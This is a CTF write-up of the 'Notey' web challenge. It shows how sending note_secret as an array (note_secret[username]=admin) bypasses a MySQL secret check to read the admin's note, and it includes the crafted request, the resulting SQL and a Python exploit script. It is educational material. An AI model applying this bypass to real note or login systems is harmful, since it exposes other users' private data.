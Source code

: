 
## Notey Writeup

- **Category:** Web
- **Points:** 180
- **Difficulty:** Medium

## Challenge Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

## Challenge Code

You can find the challenge files [here](https://github.com/D4rkTT/BlackHat-MEA-2024-Quals-Writeups/tree/main/Notey-src)

## Exploitation

The application allows users to create and share notes by assigning a secret password, which enables sharing through the note's ID and password. During an analysis, I discovered that the `viewNote` function does not validate parameter types properly, allowing arrays to be sent instead of text. This vulnerability can be exploited to retrieve the flag from the admin's note (ID 66).

Given that the database is MySQL, an attacker can exploit this vulnerability by sending the following request:
`viewNote?note_id=66&note_secret[username]=admin`

This request translates into the following SQL query:
```sql
SELECT note_id, username, note FROM notes WHERE note_id = '66' AND secret = `username` = 'admin'
```
Which simplifies to:
```sql
SELECT note_id,username,note FROM notes WHERE note_id = '66' and 1
```


The condition secret = 'username' = 'admin' evaluates to 1 because there is a note in the table where username='admin'.

If the username field does not exist, the attack can still be executed by creating a new note with any content, such as 'test', and then retrieving the admin's note using:
`/viewNote?note_id=66&note_secret[note]=test`

Due to server restrictions that invalidate sessions in less than 3 seconds, the exploit is automated using the following script. This script registers a new user, logs in, and retrieves the flag before the session expires:

```python
import requests

# Define the base URL for the application
base_url = 'http://a7c623f98ed8647acdccc.playat.flagyard.com'
login_url = f"{base_url}/login"
register_url = f"{base_url}/register"

# Define user credentials
username = "hanzala"
password = "11223344"

# Data for user registration
register_data = {
    "username": username,
    "password": password
}

# Create a session object to handle cookies and maintain state
sess = requests.Session()

# Register a new user
register_response = sess.post(register_url, data=register_data)
print(f"Register Response: {register_response.status_code}")

# Log in with the newly registered user
login_response = sess.post(login_url, data=register_data)
print(f"Login Response: {login_response.status_code}")

# Define the target URL to exploit the vulnerability
target_url = f"{base_url}/viewNote?note_id=66&note_secret[username]=admin"

# Send the request to exploit the vulnerability and retrieve the flag
exp = sess.get(target_url)
flag = exp.json()[0]['note']
print(f"Flag: {flag}")

